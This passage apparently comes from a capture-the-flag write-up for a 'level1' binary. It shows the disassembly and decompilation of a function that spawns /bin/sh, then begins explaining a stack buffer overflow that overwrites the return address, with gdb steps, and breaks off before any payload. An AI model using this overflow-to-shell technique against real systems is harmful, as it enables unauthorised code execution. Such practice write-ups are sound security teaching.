 	```asm
	.text:08048444 run             proc near
	.text:08048444 ; __unwind {
	.text:08048444                 push    ebp
	.text:08048445                 mov     ebp, esp
	.text:08048447                 sub     esp, 18h
	.text:0804844A                 mov     eax, ds:stdout@@GLIBC_2_0
	.text:0804844F                 mov     edx, eax
	.text:08048451                 mov     eax, offset aGoodWaitWhat ; "Good... Wait what?\n"
	.text:08048456                 mov     [esp+0Ch], edx
	.text:0804845A                 mov     dword ptr [esp+8], 13h
	.text:08048462                 mov     dword ptr [esp+4], 1
	.text:0804846A                 mov     [esp], eax
	.text:0804846D                 call    _fwrite
	.text:08048472                 mov     dword ptr [esp], offset aBinSh ; "/bin/sh"
	.text:08048479                 call    _system
	.text:0804847E                 leave
	.text:0804847F                 retn
	.text:0804847F ; } // starts at 8048444
	.text:0804847F run             endp
	```

	```c
	int run()
	{
		fwrite("Good... Wait what?\n", 1, 19, stdout);
		return system("/bin/sh");
	}
	```

1. Oh, there we go. After some research, we learned that we can use a buffer overflow to set the next instruction address. To do so, we have to fill our buffer up to the return address, then fill the return address with our wanted destination. To be able to determine the total, we can use a pattern to fill the buffer, then check our stack to find the buffer address and the return address.

	```sh
	# Add breakpoint on `main` and run
	> (gdb) b main
	Breakpoint 1 at 0x8048483
	> (gdb) b gets
	Breakpoint 2 at 0x8048340
	> (gdb) r
	Starting program: /home/user/level1/level1

	Breakpoint 1, 0x08048483 in main ()

	# Provide our pattern
	> (gdb) step

	Breakpoint 2, 0xb7e91e40 in gets () from /lib/i386-linux-gnu/libc.so.6
